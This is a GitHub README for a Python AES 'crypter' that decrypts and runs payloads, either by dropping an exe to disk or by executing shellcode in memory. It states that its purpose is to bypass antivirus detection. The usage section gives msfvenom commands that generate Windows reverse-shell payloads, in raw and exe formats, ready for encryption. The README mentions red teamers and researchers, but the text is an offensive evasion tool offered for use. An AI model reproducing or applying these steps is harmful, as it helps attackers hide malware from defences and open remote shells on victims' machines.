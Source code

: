 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

<p align="center">
  <img src="demo.gif" alt="Demo">
</p>

---

## 🚀 Usage

### 1. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o payload.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 2. Encrypt your payload

- `python.exe scantime/runtime.py payload.exe/.bin`

